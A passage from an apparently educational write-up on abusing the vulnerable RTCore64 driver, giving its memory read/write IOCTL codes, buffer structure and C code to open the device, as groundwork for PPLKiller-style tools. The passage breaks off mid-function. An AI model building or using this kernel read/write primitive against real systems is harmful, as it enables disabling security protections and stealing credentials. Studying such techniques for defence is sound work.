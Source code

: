 # <a name="5_interacting"></a> 5. Interacting with RTCore64
To begin exploring how tools like PPLKiller work, we need to write a simple program that can interact with the vulnerable driver using the provided IOCTLs. The code provided here is based on the PPLControl source code, but adapted for C without using objects.  

First, let's define the necessary IOCTL codes, the device name, and the structure used for the buffer:  

```c
#define RTC64_DEVICE_NAME_W L"RTCore64"

#define RTC64_IOCTL_MEMORY_READ 0x80002048
#define RTC64_IOCTL_MEMORY_WRITE 0x8000204c

typedef struct RTC64_MEMORY_STRUCT {
	BYTE Unknown0[8];  // offset 0x00
	DWORD64 Address;   // offset 0x08
	BYTE Unknown1[4];  // offset 0x10
	DWORD Offset;      // offset 0x14
	DWORD Size;        // offset 0x18
	DWORD Value;       // offset 0x1c
	BYTE Unknown2[16]; // offset 0x20
}RTC64_MEMORY_STRUCT, * PRTC64_MEMORY_STRUCT;
```
Next, we create the function responsible for opening the device. It uses *CreateFileW*{: style="color: LightGreen"} to obtain a handle to the symbolic link of the RTCore64 device:  

```c
HANDLE hDevice = NULL;
WCHAR* DevicePath = NULL;

BOOL OpenRTCoreDevice() {
	// Allocate memory which will hold the device path
	DevicePath = (LPWSTR)malloc((MAX_PATH + 1) * sizeof(WCHAR));
	if (DevicePath == NULL) {
		PRINT_ERROR(L"[-] Error: Couldn't allocate memory!\r\n");
		return FALSE;
	}

	// Set DevicePath to \\.\RTCore64
	swprintf_s(DevicePath, MAX_PATH, L"\\\\.\\%ws", RTC64_DEVICE_NAME_W);

	// Open handle to the device with RW access
	hDevice = CreateFileW(
		DevicePath, 
		GENERIC_READ | GENERIC_WRITE, 
		0, 
		NULL, 
		OPEN_EXISTING, 
		0, 
		NULL);
	if (hDevice == INVALID_HANDLE_VALUE) {
		PRINT_ERROR(L"[-] Error: CreateFileW error code 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

// Function for cleanup
void CloseRTCoreDevice() {
	if (DevicePath) {
		free(DevicePath);
	}
```